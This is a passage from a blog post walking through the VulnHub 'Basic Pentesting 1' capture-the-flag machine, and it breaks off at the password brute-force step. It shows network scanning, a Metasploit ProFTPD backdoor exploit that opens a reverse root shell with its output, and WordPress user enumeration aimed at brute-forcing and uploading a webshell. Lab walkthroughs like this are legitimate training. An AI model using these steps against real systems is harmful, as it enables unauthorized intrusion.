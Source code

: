 ```yaml
---
layout: posts
title:  "Walkthrought Basic Pentesting"
date:   2020-03-26 23:20:58 +0530
tags: CTF update
---
```


In this walkthrough we are going to look at various steps of exploiting the end device. The `.ova` file can be downloaded from [www.vulnhub.com](https://www.vulnhub.com/entry/basic-pentesting-1,216/)
## Scanning the network
One of the first steps is to scan the network for open ports and look for vulnerabilities. It can be done using tools/ utilities like `netdiscover` and `nmap`. We will see usage and outcome of both of these tools.
### Using Netdiscover
`eth1` is the interface of the network on which you are listening to the incoming traffic. The interface can be checked by `ifconfig` command.

{% highlight console %}
netdiscover -i eth1 -r 10.10.10.0/24
{% endhighlight %}

{% highlight console %}

 Currently scanning: Finished!   |   Screen View: Unique Hosts                       
                                                                                     
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                     
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.10.10.1      0a:00:27:00:00:05      1      60  Unknown vendor                    
 10.10.10.100    08:00:27:72:2f:90      1      60  PCS Systemtechnik GmbH            
 10.10.10.104    08:00:27:c5:db:a3      1      60  PCS Systemtechnik GmbH            
 10.10.10.105    08:00:27:5b:29:29      1      60  PCS Systemtechnik GmbH            

{% endhighlight %}

[comment]: <> ( // ![screenshot]({{ '/assets/img/posts/netdiscover.png' | relative_url }}) )

### Using Nmap

We can also use `nmap` for target discovery. Since we have already made the target discovery using `netdiscover`, we can move
forward to find open ports and the services running on those ports.

The option
{% highlight console %}
-A: Enable OS detection, version detection, script scanning, and traceroute
{% endhighlight %}

{% highlight console %}
nmap -A 10.10.10.104
{% endhighlight %}

{% highlight console %}
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-31 13:46 EDT
Nmap scan report for vtcsec (10.10.10.104)
Host is up (0.00065s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:C5:DB:A3 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms vtcsec (10.10.10.104)
{% endhighlight %}

[comment]: <> ( ![screenshot]({{ '/assets/img/posts/nmap.png' | relative_url }}) )

## Results of Scanning

In our `nmap` scan results we have found three ports open with three different services running on these ports.
We will try to exploit all these three services one by one to gain a foothold on the target device. Lets start with the easiest.

##  Targeting FTP

From the scan results of `nmap` we have found that ftp version is `ProFTPD 1.3.3c`. We will now kickstart metasploit framework console to find, if we have some exploits for this version of FTP.

{% highlight console %}
msfconsole
{% endhighlight %}

Search the framework for any existing exploits.

{% highlight console %}
msf5 > search ProFTPD 1.3.3c

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   1  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   2  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
   6  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution

{% endhighlight %}

Now we have found an exploit with ranking of `excellent`. Lets try that out.

{% highlight console %}
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 10.10.10.103:4444
[*] 10.10.10.104:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo RATOzCBJHKVT6cmO;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "RATOzCBJHKVT6cmO\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (10.10.10.103:4444 -> 10.10.10.104:41092) at 2020-03-27 14:17:39 -0400

pwd
/
whoami
root
{% endhighlight %}

## Targeting Website

As a first step we need to enumerate the directories of the website. For this we
will use `DirBuster`. This tool is developed by OWASP Foundation to brute force
directories and files names on web/application servers.
This tool is also available in Kali Linux.

In order to use this tool we need to provide the base path of the website and the
dictionary. We will be using the pre-installed dictionary with Kali Linux.
The path of dictionary list is

`/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

The output of the tool shows that there is an existing `/secret` directory which contains the `index.html` page.

Once we land on the home page, we find that it is a wordpress site but the
layout is not properly formatted. It happens because the webpages are not able
to resolve the links. In order to overcome this challenge, we need to make an entry
into the hosts file of our Kali PC.

{% highlight console %}
nano /etc/hosts
10.10.10.104  vtcsec
{% endhighlight %}

There is a beautiful tool `wpscan` for scanning vulnerabilities in wordpress sites
and can be downloaded from [wpscan.org](https://wpscan.org/). The tool comes pre-installed
in Kali Linux.

Now, if can somehow exploit the wordpress site to upload our webshell, we can
get acess to the system. One of the simpliest ways is to find the user accounts
and then try to bruteforce the passwords.

Let us try to enumerate the users

{% highlight console %}
wpscan --url http://10.10.10.104/secret --enumerate u --api-token SFQsH.....ayIm1ppfZZ8FH0
{% endhighlight %}

`SFQsH.....ayIm1ppfZZ8FH0` is the `api-key` which you get after registering with
[wpvulndb.com](https://wpvulndb.com/)

{% highlight console %}
 Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
{% endhighlight %}

Once we have enumerated the users, we can bruteforce the password. We have downloaded
the wordlist `rockyou-75.txt` from  
